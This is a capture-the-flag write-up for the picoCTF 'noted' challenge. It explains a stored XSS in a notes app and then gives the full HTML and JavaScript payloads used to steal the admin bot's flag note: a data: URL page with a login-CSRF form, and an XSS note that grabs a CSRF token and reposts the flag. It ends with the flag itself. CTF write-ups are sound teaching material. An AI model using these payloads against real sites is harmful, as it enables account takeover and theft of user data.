







## noted



We are given a website where we can post and display notes.  



Immediately, we can notice in the backend source that the notes themselves are vulnerable to XSS, since they are being rendered in EJS without proper escaping.  



We can verify this by creating a note with a simple XSS payload.  



When we are redirected back to `/notes` after posting, the `alert()` immediately triggers, proving the XSS vulnerability.  



The most crucial aspect of the webpage is the `/report` endpoint.  

We are allowed to report a URL, upon which the backend will initialise a headless browser. The headless browser will then login as admin and post a note containing the flag, before redirecting to our URL.  



Since we are allowed to inject raw html into URLs, we can build a malicious html page that will exfiltrate the flag note, then report it as a URL.  

```
data:text/html,<malicious html>
```

The first step of our attack will be to intercept the flag note.  

We will first prepare a `<form>` with our own credentials on the website (requires registering an account beforehand).  

Our script will open the `/notes` endpoint in another tab, and since the browser will still be logged in as admin then, that tab will contain the flag.  

The script will then login on the current tab with our credentials, before visting our notes with the `xss` argument.  

Note that we have to specify `target='_blank'` in the form such that the JavaScript will still execute even after the form redirects on login.  

```html
data:text/html,
<form method='POST' action='http://0.0.0.0:8080/login' target='_blank'>
    <input name='username' value='<your username>'><input name='password' value='<your password>'>
</form>
<script>
    window.open('http://0.0.0.0:8080/notes', 'hacked')
    setTimeout(() => document.querySelector('form').submit(), 1000)
    setTimeout(() => location.href='http://0.0.0.0:8080/notes?xss', 1500)
</script>
```

Now that we have a tab with the flag open, we need a way of exfiltrating the flag. Since the challenge mentioned that the headless browser doesn't have access to the Internet, we will have to post the flag as a note on our own account.  

Before reporting our HTML payload, we will have to first create an XSS note. The note will first check if its page is being visited with the `xss` argument, such that it knows when our HTML page is trying to exfiltrate the flag.  

The note will then fetch the CSRF token (required for posting), grab the flag from the tab we previously opened, then make a new note with the flag inside.  

```html
<script>
    if (location.href.includes('xss')) {
        fetch('http://0.0.0.0:8080/new').then(res => res.text()).then(page => page.match(/_csrf" value="(.+)"/)[1])
            .then(csrf =>
                fetch('http://0.0.0.0:8080/new', { 
                    'method': 'POST',
                    headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
                    body: new URLSearchParams({
                        'title': 'flag',
                        'content': window.open('', 'hacked').document.body.textContent.match(/(picoCTF{.+})/)[1],
                        '_csrf': csrf
                    })
                })
            )
    }
</script>
```

After creating the XSS note and reporting our HTML payload, we just have to wait a few seconds before refreshing our notes to see the flag.  



Flag: `picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}`